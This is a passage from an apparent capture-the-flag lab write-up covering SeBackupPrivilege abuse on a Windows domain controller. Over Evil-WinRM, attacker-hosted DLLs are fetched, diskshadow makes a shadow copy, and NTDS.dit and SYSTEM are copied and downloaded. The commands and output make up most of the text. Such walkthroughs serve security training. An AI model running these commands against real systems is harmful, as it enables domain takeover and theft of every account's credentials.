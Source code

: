 ```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> iwr -uri http://10.10.14.37/SeBackupPrivilegeCmdLets.dll -outfile ./SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> iwr -uri http://10.10.14.37/SeBackupPrivilegeUtils.dll -outfile ./SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> iwr -uri http://10.10.14.37/script.txt -outfile ./script.txt
*Evil-WinRM* PS C:\Users\svc_backup\Documents> ls

    Directory: C:\Users\svc_backup\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/17/2024   2:31 PM            197 script.txt
-a----        7/17/2024   2:31 PM          12288 SeBackupPrivilegeCmdLets.dll
-a----        7/17/2024   2:31 PM          16384 SeBackupPrivilegeUtils.dll
```

Loaded the two DLLs with `ipmo` and created a shadow copy of C:\\.

```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Set-SeBackupPrivilege
*Evil-WinRM* PS C:\Users\svc_backup\Documents> diskshadow.exe /s .\script.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  7/17/2024 2:34:43 PM

...
-> expose %cdrive% E:
-> %cdrive% = {33bd62b6-1506-4e1b-915b-eb9a7128cb2c}
The shadow copy was successfully exposed as E:\.
-> end backup
-> exit
```

We are in a Domain Controller, so let’s copy NTDS and SYSTEM to the current directory and download them. Very similar to what we did in [VL Baby - Easy](https://duskb1t.github.io/posts/vl-baby/) but it is slow af zzzzzZZZZZZ.

```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Copy-FileSeBackupPrivilege E:\Windows\System32\config\SYSTEM .\SYSTEM

*Evil-WinRM* PS C:\Users\svc_backup\Documents> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit .\ntds.dit

*Evil-WinRM* PS C:\Users\svc_backup\Documents> download SYSTEM
                                        
*Evil-WinRM* PS C:\Users\svc_backup\Documents> download ntds.dit
```
